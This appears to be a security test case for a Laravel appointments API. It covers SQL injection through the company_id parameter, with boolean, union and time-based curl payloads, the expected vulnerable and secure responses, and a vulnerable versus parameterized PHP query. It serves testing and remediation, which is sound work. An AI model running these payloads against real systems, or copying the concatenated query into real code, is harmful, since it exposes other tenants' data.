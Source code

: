 **CVSS Score**: 9.8 (CRITICAL)
**CVSS Vector**: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

#### Description

Attacker attempts SQL injection through the company_id parameter to bypass authorization checks and access unauthorized data.

#### Attack Vector

```bash
# Boolean-based SQL injection
curl "http://api-gateway.local/api/v1/appointments?company_id=9001' OR '1'='1"

# Union-based SQL injection
curl "http://api-gateway.local/api/v1/appointments?company_id=9001' UNION SELECT * FROM users--"

# Time-based blind SQL injection
curl "http://api-gateway.local/api/v1/appointments?company_id=9001' AND SLEEP(5)--"
```

#### Expected Behavior (Vulnerable System)

```
HTTP/1.1 200 OK
{
  "appointments": [
    // Returns ALL appointments from ALL companies
    {"id": 1, "company_id": 9001, ...},
    {"id": 2, "company_id": 9002, ...},
    {"id": 3, "company_id": 9003, ...}
  ]
}

VULNERABLE: SQL injection successful
Database error messages expose schema information
```

#### Expected Behavior (Secure System)

```
HTTP/1.1 400 Bad Request
{
  "error": "Invalid company_id parameter",
  "message": "Parameter must be a valid integer"
}

SECURE: SQL injection prevented through parameterized queries
Input validation rejected malicious payload
```

#### Technical Details

**Protection Mechanism**: Laravel Query Builder with parameter binding
```php
// Vulnerable (string concatenation)
DB::select("SELECT * FROM appointments WHERE company_id = " . $request->company_id);

// Secure (parameterized query)
DB::select("SELECT * FROM appointments WHERE company_id = ?", [$request->company_id]);

// Best (Eloquent ORM)
Appointment::where('company_id', $request->company_id)->get();
```
